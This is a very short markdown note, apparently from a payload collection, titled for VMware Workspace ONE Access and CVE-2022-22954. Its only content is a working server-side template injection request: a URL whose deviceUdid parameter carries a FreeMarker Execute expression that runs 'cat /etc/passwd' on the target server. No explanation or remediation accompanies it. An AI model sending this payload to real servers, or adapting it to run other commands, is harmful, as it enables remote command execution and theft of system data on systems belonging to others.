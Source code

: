 # Workspace ONE Access

## CVE-2022-22954: SSTI

```
/catalog-portal/ui/oauth/verify?error=&deviceUdid=${"freemarker.template.utility.Execute"?new()("cat /etc/passwd")}
```
